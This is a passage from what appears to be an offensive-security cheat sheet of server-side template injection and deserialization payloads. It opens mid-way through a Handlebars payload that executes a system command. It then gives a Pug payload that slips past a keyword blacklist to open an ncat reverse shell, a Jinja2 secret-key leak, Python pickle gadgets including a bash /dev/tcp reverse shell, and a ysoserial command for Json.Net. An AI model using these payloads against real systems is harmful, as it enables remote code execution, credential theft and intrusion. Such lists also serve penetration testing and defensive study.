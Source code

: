           {{this.push (lookup string.sub "constructor")}}
          {{this.pop}}
          {{#with string.split as |codelist|}}
            {{this.pop}}
            {{this.push "return require('child_process').exec('id');"}}
            {{this.pop}}
            {{#each conslist}}
              {{#with (string.sub.apply 0 codelist)}}
                {{this}}
              {{/with}}
            {{/each}}
          {{/with}}
        {{/with}}
      {{/with}}
    {{/with}}
    ```
#### Pug (NodeJS)
Bypass keyword blacklist
```
#{function(){eval(`localLoad=global.process.mainModule.constructor._load;sh=localLoad('child`+`_process').exec('ncat 10.10.10.10 7777 -e /bin/bash')`)}()}
```
#### Jinja2 (Python)
- For flask, Django ......
- Secret key
    - `{{settings.SECRET_KEY}}`

### Unserialize
#### Python
```python=
import subprocess
import pickle

class Meow(object):
    def __reduce__(self):
        return subprocess.check_output, (['ping', '-c', '1', '10.10.10.10'], )

a = Meow() #
print(base64.b64encode(pickle.dumps(a)))


class Meow(object):
    def __reduce__(self):
        return os.system, ("bash -c 'bash -i >& /dev/tcp/192.168.119.130/7877 0>&1'",)

payload = pickle.dumps(Meow())
payload = base64.b64encode(payload).decode()

```

#### ASP.Net
##### Json.Net
```
.\ysoserial.exe -g  ObjectDataProvider -f Json.Net -c 'ping {My_IP}'
```
- Limitation : In `JsonConvert.DeserializeObject`, the `TypeNameHandling` in configuration `JsonSerializerSettings` must not be `None`, can be `Objects`, `Arrays`, `All`, `Auto`
